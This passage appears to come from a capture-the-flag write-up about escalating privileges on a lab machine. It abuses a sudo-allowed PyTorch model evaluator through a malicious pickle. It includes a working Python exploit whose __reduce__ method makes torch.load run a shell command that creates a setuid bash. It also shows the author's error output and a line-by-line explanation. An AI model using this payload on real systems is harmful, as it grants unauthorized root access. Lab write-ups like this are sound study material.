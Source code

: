 
But it is used to load and evaluate a PyTorch model, specifically a CustomCNN (convolutional neural network model with two convolutional layers followed by fully connected layers.)

then the `load_model(model_path)` function loads the model’s state dictionary from the specified file path and prepares it for evaluation.
this is where our payload will be fed

after trying a couple of exploits 
i was getting unsupported file format errors
```bash
sudo /usr/bin/evaluate_model /models/malicious.pth
[!] Unknown or unsupported file format for /models/malicious.pth
jippity@blurry:~$ file /models/malicious.pth 
/models/malicious.pth: ASCII text
```

after some research i realised this was because the `evaluate_model` script expects model files that are serialized in the PyTorch format

 Given that the script uses torch.load(), you can leverage Python's pickle module for this purpose.

 going forward with that info i came up with this script featuring chatgpt

```python
import torch
import os

class Exploit(torch.nn.Module):
    def __init__(self):
        super(Exploit, self).__init__()

    def forward(self):
        pass

    def __reduce__(self):
        return (os.system, ('cp /bin/bash /tmp/bash; chmod +s /tmp/bash; /tmp/bash',))

exploit = Exploit()
torch.save(exploit, 'exploit.pth')
```
#### summary of the script
torch: This is the PyTorch library. We use it to serialize (save) objects to .pth files, which is a common format for PyTorch models.
os: This library gives access to operating system functionalities, which we use to run shell commands.

`Exploit(torch.nn.Module)`: This class inherits from torch.nn.Module, making it compatible with PyTorch's serialization methods

`forward method`: A dummy forward method is defined, which is a requirement when you inherit from torch.nn.Module. In a real neural network, the forward method would define the forward pass (how the data moves through the layers of the network), but in this case, it does nothing since we're only using the class to deliver the payload.

the `__reduce__` method is hijacked to return a system command (os.system) instead of normal serialized data. When this object is deserialized (unpickled) during model evaluation, the operating system will execute the command provided 
